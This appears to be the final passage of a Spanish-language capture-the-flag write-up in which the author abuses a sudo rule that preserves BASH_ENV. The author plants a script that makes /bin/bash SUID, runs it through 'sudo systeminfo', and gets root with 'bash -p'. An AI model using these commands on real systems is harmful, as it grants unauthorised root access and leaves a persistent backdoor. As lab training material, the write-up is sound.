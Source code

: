aquí vemos como llevando la variable ENV valor / y solo manteniendo el valor de la otra variable sigue funcionando, diría que es un path hijaking

si haz visto mis writeups, sabrás que me encanta la técnica de convertir la bash a SUID, entonces aquí será igual :D

primero el script:
```
echo 'chmod u+s /bin/bash' > /tmp/3vil.sh
```

luego la manipulacion de la variable y la ejecucion de nuestro script:
```bash
BASH_ENV=/tmp/3vil.sh sudo systeminfo
```

y ahora verificando la bash:
<img src="/images/writeup-environment/Pasted image 20250702122317.png">

ejecutando:
```bash
bash -p
```
somos root:

<img src="/images/writeup-environment/Pasted image 20250702124254.png">

------------------------------------------------------
\
nos vemos en la siguiente maquina! 

<h3>H4ck th3 W0rld</h3>
